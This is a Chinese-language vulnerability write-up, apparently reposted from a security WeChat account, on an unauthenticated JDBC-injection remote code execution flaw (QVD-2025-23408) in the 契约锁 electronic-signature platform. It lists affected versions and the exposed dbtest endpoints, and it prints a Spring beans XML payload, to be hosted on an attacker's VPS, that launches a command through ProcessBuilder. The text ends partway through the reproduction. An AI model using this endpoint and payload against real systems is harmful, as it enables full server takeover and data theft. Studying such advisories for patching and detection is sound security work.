 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU0MTc2NTExNg==&mid=2247492423&idx=1&sn=11c5751ce8c00ae8ea6046da3c250e20

#  QVD-2025-23408：契约锁电子签章系统未授权RCE漏洞  
 实战安全研究   2025-07-06 15:47  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！  
  
作者：Howell@Timeline Sec   
  
本文字数：2480  
  
阅读时长：2～3mins   
  
声明：仅供学习参考使用，请勿用作违法用途，否则后果自负   
  
  
## 0x01 简介  
  
契约锁是上海亘岩网络科技有限公司打造的电子签约及印章管理平台，联合权威机构提供数字身份、电子签章、印章管控及数据存证服务，助力企业数字化转型。其电子文件具备法律效力，支持多种签署方式，可集成业务系统，满足多行业需求。  
## 0x02 漏洞概述  
  
**漏洞编号：QVD-2025-23408**  
  
这是一个严重的远程代码执行漏洞，该漏洞源于管理控制台存在未授权 JDBC 注入漏洞，攻击者无需身份认证，通过构造恶意数据库连接参数，在 
```
dbtest
```

  
 接口触发远程代码执行，这可能导致服务器被完全控制、数据泄露或业务系统沦陷。  
## 0x03 利用条件  
  
1）影响版本  
  
4.3.8 <= 契约锁 <= 5.3.* && 补丁版本 < 2.1.5  
  
4.0.* <= 契约锁 <= 4.3.7 && 补丁版本 < 1.3.5  
  
2）所需权限：无  
## 0x04 漏洞复现  
  
访问/setup/dbtest或/api/setup/dbtest  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBbSlFjvuUedq4dq3g2mibbckwPAphrcAx34ubpwxlSkb9LW9DjNvlsIw/640?wx_fmt=png&from=appmsg "")  
  
对POSTGRESQL数据库进行利用  
  
新建1.xml文件，内容如下，放至自己的VPS上  

```
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>
   <bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>
        <constructor-arg>
          <list>
            <value>cmd</value>
            <value>/c</value>
            <value>calc</value>
          </list>
        </constructor-arg>
    </bean>
```
